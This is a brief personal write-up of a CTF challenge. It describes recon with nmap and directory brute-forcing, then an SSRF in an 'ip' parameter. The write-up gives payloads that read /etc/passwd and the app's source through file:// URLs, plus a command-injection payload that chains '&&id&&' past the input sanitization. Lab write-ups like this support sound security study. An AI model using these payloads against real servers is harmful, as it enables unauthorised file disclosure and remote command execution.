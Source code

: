 
2024-11-05 20:23

Source: #CTF 

Nmap scan the IP
Directory Bursting on Website
### SSRF on /status/index.php

in the captured burp suite request we have an IP field 
on changing the ip field we get etc/passwd in return 
```
ip=file:///etc/passwd
```
### RCE via SSRF

change the IP field to the following
```
ip=file:///proc/self/cwd/index.php
```

this will get the index.php, now decode this from html encoding
There is some sanitization to avoid RCE, but by using `&&` , we can still execute commands and bypass the sanitization. payload (I had urlencoded the &): 
```
ip=file:///etc/passwd&&id&&
```






### References
 ISH CTF - Shivam
